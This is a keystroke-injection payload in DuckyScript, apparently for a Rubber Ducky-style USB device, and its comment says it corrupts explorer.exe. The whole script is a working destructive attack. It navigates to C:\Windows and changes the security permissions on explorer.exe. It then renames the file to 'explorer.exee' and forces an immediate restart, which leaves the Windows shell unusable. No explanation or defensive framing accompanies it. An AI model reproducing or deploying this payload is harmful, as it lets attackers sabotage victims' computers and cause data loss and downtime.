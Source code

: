     DELAY 8000
    REM corrupt explorer.exe
    GUI e
    DELAY 800
    ALT v
    DELAY 600
    ALT hf
    DELAY 800
    ALT d
    DELAY 700
    STRING C:\Windows
    DELAY 600
    ENTER
    DELAY 600
    STRING e
    DELAY 600
    STRING e
    DELAY 600
    ALT ENTER
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    RIGHTARROW
    DELAY 500
    RIGHTARROW
    DELAY 600
    ALT v
    DELAY 800
    ALT c
    DELAY 800
    ALT f
    DELAY 700
    CONTROL C
    DELAY 700
    ALT e
    DELAY 650
    CONTROL V
    DELAY 500
    STRING \Users
    DELAY 600
    ENTER
    DELAY 600
    ALT A
    DELAY 900
    ENTER
    DELAY 800
    ENTER
    DELAY 600
    TAB
    DELAY 500
    ENTER
    DELAY 700
    ALT ENTER
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 600
    RIGHTARROW
    DELAY 600
    RIGHTARROW
    DELAY 600
    ALT E
    DELAY 600
    DOWNARROW
    DELAY 600
    DOWNARROW
    DELAY 600
    DOWNARROW
    DELAY 600
    DOWNARROW
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 700
    SPACE
    DELAY 500
    ENTER
    DELAY 800
    ALT Y
    DELAY 600
    ENTER
    DELAY 600
    TAB
    DELAY 500
    ENTER
    DELAY 700
    ALT ENTER
    DELAY 850
    TAB
    DELAY 500
    TAB
    DELAY 500
    TAB
    DELAY 600
    TAB
    DELAY 600
    TAB
    DELAY 800
    TAB
    DELAY 600
    STRING explorer.exee
    DELAY 950
    ENTER
    DELAY 600
    ENTER
    DELAY 600
    ENTER
    DELAY 900
    LEFTARROW
    DELAY 600
    ENTER
    DELAY 800
    GUI r
    DELAY 550
    STRING cmd
    DELAY 600
    ENTER
    DELAY 800
    STRING shutdown /r /t 0
    DELAY 700
    ENTER